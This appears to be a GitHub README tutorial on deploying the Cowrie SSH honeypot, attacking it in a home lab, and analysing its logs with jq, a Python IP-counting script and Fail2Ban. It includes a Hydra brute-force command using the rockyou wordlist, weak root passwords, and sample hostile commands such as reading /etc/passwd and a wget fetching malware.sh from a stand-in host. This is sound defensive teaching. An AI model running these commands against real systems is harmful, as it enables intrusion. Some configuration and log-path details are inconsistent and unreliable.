# Deploying-Testing-a-Honeypot-with-Cowrie


## Overview
In this project, you’ll deploy **Cowrie**, an SSH honeypot, to simulate a vulnerable system and attract attackers. You’ll then play the role of an attacker to test it by attempting unauthorized access. Finally, you’ll analyze the collected logs to understand how real-world attackers operate.
## What is a Honeypot?
A **honeypot** is a cybersecurity defense mechanism designed to appear as a legitimate system, enticing attackers to engage with it while secretly monitoring their actions. These decoy systems are intentionally vulnerable, not to provide real services, but to collect intelligence on attack methods, exploited vulnerabilities, and adversary behavior. By analyzing these interactions, security professionals can enhance threat detection, refine defense strategies, and gain valuable insights into emerging cyber threats.

## What is a Cowrie?
**Cowrie** is a medium-to-high interaction **SSH and Telnet honeypot** designed to simulate a real system, tricking attackers into interacting with it while capturing their actions. It logs brute-force attempts, command executions, and even file transfers, helping security professionals analyze attacker behavior.

## 🖥️Step1: Set Up the Environment?
### 1.1 Prepare the Virtual Machine (VM)
My Setup:

Attacker Machine: Kali Linux
Honeypot Machine: A new Kali Linux machine
you can Use Ubuntu 20.04+ or Debian 11+. If you have a Raspberry Pi, you can also install it there.
-Update your system:
```bash
sudo apt update && sudo apt upgrade -y
```
-Install dependencies:
```bash
sudo apt install -y git python3-venv
```
### 1.2: Clone and Install Cowrie
Now that the honeypot machine is ready, let’s install Cowrie.
**Install Required Dependencies**
Before installing Cowrie, make sure you have the necessary packages installed. Open a terminal on the honeypot machine and run:
```bash
sudo apt update && sudo apt install -y git python3-venv python3-dev libssl-dev libffi-dev build-essential
```


**Clone the Cowrie Repository**
Cowrie is an open-source project available on GitHub. To download it, use:
```bash
git clone https://github.com/cowrie/cowrie.git
```


**Change to the Cowrie Directory**
Navigate to the Cowrie directory using the following command:
```bash
cd cowrie
```
🔹 What is a Virtual Environment?
A virtual environment (venv) isolates Python dependencies so they don’t interfere with system-wide packages. This is useful for keeping Cowrie stable.
Create and Activate a Virtual Environment

Run the following commands inside the **cowrie** directory:
```bash
python3 -m venv cowrie-env  # Create the virtual environment
```
```bash
source cowrie-env/bin/activate  # Activate the virtual environment
```
📌 Once activated, your terminal prompt will change to something like:


**Install Cowrie’s Dependencies**

Now, install the required Python packages inside the virtual environment:
```bash
pip install --upgrade pip
```

```bash
pip install -r requirements.txt
```



📌 This ensures all necessary dependencies are installed for Cowrie to function properly.
**Verify the Installation**

To check if Cowrie installed correctly, run:
you should not run this command as root
```bash
bin/cowrie start
```
To check the status, use:
```bash
bin/cowrie status
```

## 🔥 Step 2: Configure Cowrie (Detailed Explanation)
Now that you have Cowrie installed, the next step is to configure it properly to make it look like a real system and log attacker interactions.

### 2.1.Rename and Edit the Configuration File
Cowrie uses a default configuration file **(cowrie.cfg.dist)**. To make changes, we need to create a copy:
```bash
cd ~/cowrie  # Navigate to the Cowrie directory
```
```bash
cp cowrie.cfg.dist cowrie.cfg  # Create a working config file
```
Now, open the config file in a text editor:
```bash
nano cowrie.cfg
```
2.2.Change the Listening Port (Optional but Recommended)
By default, Cowrie listens on port 2222 instead of the standard SSH port 22. If you want Cowrie to act like a real SSH server, you can make it listen on port 22.

Option 1: Change the Port in Cowrie

Find this line in **cowrie.cfg**:
```bash
listen_endpoints = tcp:2222:interface=0.0.0.0
```
if you find the line Change it to:
```bash
listen_endpoints = tcp:22:interface=0.0.0.0
```


Option 2: Use Port Forwarding (Safer Approach)

If another SSH server is running on port 22, you can **redirect traffic from port 22 to 2222** using iptables:
```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222
```
This way, attackers will connect to **port 22**, but traffic is secretly redirected to **Cowrie on port 2222**.

Find this line in cowrie.cfg for telnet port if you want the change it :
```bash
listen_endpoints = tcp:2223:interface=0.0.0.0
```
if you find the line Change it to:
```bash
listen_endpoints = tcp:23:interface=0.0.0.0
```


### 2.3.Change the Fake System Banner

The SSH banner is what an attacker sees when they connect. You can make Cowrie look like a real Ubuntu or Debian server.

Edit cowrie.cfg and find:
```bash
hostname = svr04
```
Change it to a more realistic version:
```bash
hostname = SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.6
```

Why? If the banner looks fake, attackers will know it’s a trap.

### 2.4.Directory where to save log files in.
This is the default path for the log files. If you want to change it, you can do so.
```bash
log_path = var/log/cowrie
```


## 🚀 Step 3: Start the Honeypot
Start Cowrie:
```bash
bin/cowrie start
```
Check if it’s running:
```bash
bin/cowrie status
```
View real-time logs:
```bash
tail -f log/cowrie.log
```


## 🕵️‍♂️ Step 4: Attack Your Own Honeypot
Now, let’s simulate an attack to see how Cowrie logs activity.
### ✅ 4.1 Try Brute Force Attack

Use **Hydra** to launch a brute force attack against Cowrie:
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://<Honeypot-IP>
```


If you use one of these credentials with the command :
**ssh root@honeypot_ip_address** and enter one of these passwords, you will gain access.
Cowrie will log all username/password attempts.

### 4.2 Manually Connect as an Attacker

Try to SSH into the honeypot:
```bash
ssh root@<Honeypot-IP>
```
Use common weak passwords like:
**password**
**123456**
**admin**


### 4.3 Execute Fake Malicious Commands
Inside the Cowrie session, try:
```bash
ls /
```
```bash
whoami
```
```bash
cat /etc/passwd
```
```bash
wget http://malicious-site.com/malware.sh
```

The honeypot will log all commands.

## 📊 Step 5: Analyze Logs & Attack Data
Cowrie records all attacker activities in logs:

-Attacker Commands:
```bash
cat var/log/cowrie/cowrie.json | jq
```

This is the command that we executed on the attacker’s machine previously.

-View IP Addresses of Attackers:
```bash
cat var/log/cowrie | grep "login attempt"
```


### 5.1 Generate Attack Reports:
You can use a simple Python script to extract unique attacker IPs:
```bash
import json
from collections import Counter
ip_counter = Counter()
with open("/home/honeypot/cowrie/var/log/cowrie", "r") as file:
    for line in file:
        try:
            log = json.loads(line)
            if "src_ip" in log:
                ip_counter[log["src_ip"]] += 1
        except json.JSONDecodeError:
            continue  # Skip lines that are not valid JSON
# Display the most common attacker IPs
print("Attacker IPs (Sorted by Frequency):")
for ip, count in ip_counter.most_common():
    print(f"{ip}: {count} times")
```
#### How to Use It:
1️⃣ Save the script as **extract_ips.py**:
```bash
nano extract_ips.py
```
2️⃣ Paste the script into the file and save it (CTRL+X, then Y, then ENTER).

3️⃣ Run the script:

```bash
python3 extract_ips.py
```


## 🛡️ Step 6: Extra Security Enhancements
### ✅ 6.1 Block Real Attackers Using Fail2Ban

To block real attackers based on logs:
```bash
sudo apt install fail2ban
```
```bash
nano /etc/fail2ban/jail.local
```
Add a rule for Cowrie:
```bash
[cowrie]
enabled = true
filter = cowrie
logpath = cowrie/var/log/cowrie/cowrie.log
bantime = 3600
findtime = 600
maxretry = 3
```

Restart Fail2Ban:
```bash
sudo systemctl restart fail2ban
```

📌 Now, repeated attackers will get blocked!

This project demonstrates the implementation of a high-interaction SSH honeypot using Cowrie, enhanced with Fail2Ban for automated attacker blocking. By setting up this environment, we can log unauthorized access attempts, analyze attacker behaviors, and improve network security.

Through this documentation, I’ve shared a step-by-step guide to help others deploy a similar honeypot and strengthen their security knowledge. Cyber threats evolve constantly, and practical projects like this offer valuable insights into attacker techniques.

I hope this guide helps security enthusiasts and professionals alike. Stay curious, stay secure! 🚀🔒
I hope this was helpful!
